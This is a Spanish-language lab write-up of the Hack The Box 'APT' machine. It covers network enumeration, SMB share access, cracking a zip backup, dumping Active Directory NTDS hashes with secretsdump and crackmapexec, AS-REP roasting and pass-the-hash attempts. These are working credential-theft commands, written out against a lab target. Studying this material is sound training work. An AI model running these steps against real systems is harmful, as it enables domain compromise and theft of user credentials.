 # HTB APT Machine

CURL para  ver las cabeceras

```
curl -s -X GET http://10.129.96.60 -I
s Silent 
X indicar tipo de peticion 
I solo para mostrar las cabeceras

```

WFUZZ puedes usar una lista de extenciones definidas 

```
wfuzz -c --hc=404 -t 200 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,zip-php-asp-aspx http://127.0.0.1:8081/FUZZ.FUZ2Z

```


# ¿Qué es msrpc.exe en mi computador?

> Es la implementación de Microsoft (MS) del RPC (remote procedure call), el cual es parte del subconjunto POSIX de Windows.

# IOXIDResolver port 135

Ayuda a ver si se puede obtener la ipv6 de la maquina por e


```
python3 IOXIDResolver.py -t 10.129.96.60

Ver si la ipv6 responde

ping6 dead:beef::b885:d62a:d679:573f

```

# NMAP IPv6

```
nmap -sC -p53,80,88,135,389,445,464,593,636,5985,9389,47001,49664,49665,49666,49667,49669,49670,49673,49689,52968 -6 dead:beef::b885:d62a:d679:573f -oN targetedipv6
```
# Crackmapexec ipv6

Para usar esta herramienta solo pasa la ipv6 y listo

```
crackmapexec smb dead:beef::b885:d62a:d679:573f

```


# Puertos Abiertos 

Los servicios que se pueden ver y que quiza seria bueno memorizar son:

```
88 Kerberos
389 LDAP
445 SMB
5985 Servicio de Administracion remota de Windows( Si se tuviera credenciales validas podriamos suponer que el usario
es parte del grupo " Remote Managment Users y podriamos conectarnos con evilwinrm) igual se puede hacer con cme

```

## 445 

Para enlistar los recursos compartidos usamos 

### cme

```
crackmapexec smb dead:beef::b885:d62a:d679:573f --shares

```

Con el comando anterior no arroja nada pero probaremos con smbclient

### smbclient

Nombre de la maquina apt 

```
smbclient -L apt/htb.local -N  

```

### Conectarse a un recurso compartido

```
smbclient //htb.local/backup -N
dir 
get archivoadescargar.zip
```

Usando el comando file para ver si realmente es un zip ( recuerda usa los files signatures) para saber el tipo de archivo

```
file backups.zip

```

## 7z Checar que hay dentro 

Para checar dentro usa la "l" si te das cuenta como los comandos que se le pasan a 7z no tienen -

```
7z l backup.zip 

```

Lista lo que hay dentro.

Para descifrar un password primero se saca el hash 

```
zip2john

```
 Ese hash se le pasa a John The Ripper
 
 ```
 john -w:/usr/share/wordlists/rockyou.txt hash
 
 ```
 

# NTDS DUMPEAR hashes 

> Un controlador de dominio es miembro de un único sitio y se representa en el sitio mediante un objeto de servidor Active Directory Domain Services (AD DS). Cada objeto de servidor tiene un objeto NTDS Configuración que representa el controlador de dominio de replicación en el sitio

Cuando se compromete un dominio  se suele dumpear el contenido de NTDS ( en local se dumpea la SAM y el SYSTEM para listar los hashes de los usuarios a nivel local con esos hashes puedes aplicar pass the hash en caso de que aplique y que sea priviligeado el usuario).

Pero volvemos cuando comprometes un controlador de dominio puedes dumpear el NTDS.dir y el SYSTEM para dumpear todos los hashes de los usuarios del directorio activo

```
reg save HKLM\system system.backup
```

## Alternativa cme y con impacket-secretsdump.py

Para esta tenemos que tener credenciales validas de un domain admin.***Importante el kali se usa impacket-packete*** para llamar a secretsdump.py se hace asi:

```
impacket-secretsdump -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL
rackmapexec smb apt -u 'domainadmin' -p 'password' --ntds vss # Intentarra volvarte todos lo hashes a nivel de dominio


```

### sponge 

para evitar que destruyas el archivo recordar 

```
cat hashes | grep " lo que sea " > hashes # destruye el archivo
cat hashes | grep " lo que sea " >> hashes # destruye el archivo poner todo y lo que grepeamos al final
cat hashes | grep " lo que sea " | tee # tampcoo hace lo que queremos por jugar con el mismo archivo
cat hashes | grep " lo que sea " | sponge hashes # este si hace la operacion remplaza lo que queremos y todo lo deja en el mismo archivo


```


# Usuario valido

Una vez que tienes un usuario valido puedes pensar en relizar deiversos ataques Ataque AS-REP Roast:

```
 henry.vinson@htb.local
 
 GetNPUsers.py
 
```
 Se va a intentar solicitar un ticket TGT La idea e que cuando tu dispones de usuarios validos sin tener el pass para que en base a 
 ciertas circunstancias puedas obtener el hash
 
 ```
 python3 GetNPUsers.py htb.local/ -no-pass -usersfile ~/APT/content/valid_users.txt
 [-] User henry.vinson doesn't have UF_DONT_REQUIRE_PREAUTH set

 ```
 
 Osea si esto hubiera funcionada obteniamos el TGT y de ahi pudieramos haber obtenido un password.
 
 ## Checar si el hash es valido para el usuario
 
```
 crackmapexec smb dead:beef::b885:d62a:d679:573f -u 'henry.vinson' -H 'hkajkjkasdkfsa'
 crackmapexec smb dead:beef::b885:d62a:d679:573f -u 'henry.vinson' -H lista_hashes.txt
```
 Aunque tambien se puede checar todos los hashes que obtuvimos pero la maquina nos bloquea todo esto sin exito.
 
 ```
 
 ```






